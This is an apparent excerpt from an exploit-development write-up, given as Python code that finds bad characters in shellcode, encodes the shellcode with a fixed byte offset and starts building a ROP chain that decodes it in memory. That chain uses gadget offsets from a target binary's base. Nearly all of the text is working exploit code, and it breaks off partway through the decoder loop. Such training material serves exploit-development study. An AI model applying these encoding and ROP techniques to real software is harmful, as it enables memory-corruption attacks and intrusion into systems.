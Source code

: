 ```python
def map_bad_chars(sc):
	badchars = b"\x00\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x20\x2F\x5C"
	i = 0
	indices = []
	while i < len(sc):
		for c in badchars:
			if sc[i] == c:
				indices.append(i)
		i+=1
	return indices
bad_indices = map_bad_chars(sc)

def encode_shellcode(sc):
	badchars =     [ 0x0, 0x1 ,0x2 ,0x3 ,0x4 ,0x5 ,0x6, 0x7, 0x8, 0x9, 0xa, 0xb, 0xc, 0xd, 0x20, 0x2F, 0x5C]   
	replacements = []
	encoding_offset = -0x55
	for c in badchars:
		new = c + encoding_offset
		if new < 0:
			  new += 256
		replacements.append(new)

	print(f"Badchars: {badchars}")
	print(f"Replacments: {replacements}")
	badchars = bytes(badchars)
	replacements = bytes(replacements)

	input("Paused")
	transTable = sc.maketrans(badchars, replacements)
	sc = sc.translate(transTable)
	return sc

sc = encode_shellcode(sc)
```

With our shellcode encoded, we now have to start building the ROP decoder that will undo our changes to the shellcode:

```python
def rop_decoder():
	rop = b""

	# 1) Align eax register with shellcode
	rop += p32(0x4CBFB + binary_base)   # pop eax 
	rop += p32(writeable)
	rop += p32(0x683da + binary_base)  	# push esp ; add dword [eax], eax ; pop ecx; ret;  
	rop += p32(0x704F4 + binary_base)  	# pop eax; ret; 
	rop += p32(0x116ea + binary_base)  	# 0x522 this offset to the shellcode depends on how long the 2nd rop chain is
	rop += p32(0x2bb8e + binary_base)  	# mov eax, dword ptr [eax]; ret;
	rop += p32(0x37958 + binary_base) 	# add eax, 2; sub edx, 2; pop ebp; ret;
    rop += p32(0x41414141)
	rop += p32(0x17781 + binary_base) 	# add eax, ecx; pop ebp; ret 4;
	rop += p32(0x41414141) 
	rop += p32(binary_base + 0x159d)*(4) # ropnop

	# 2) Iterate over every bad char & add offset to all of them      
	offset = 0
	neg_offset = (-offset) & 0xffffffff
	value = 0x11111155 

	for i in range(len(bad_indices)):
```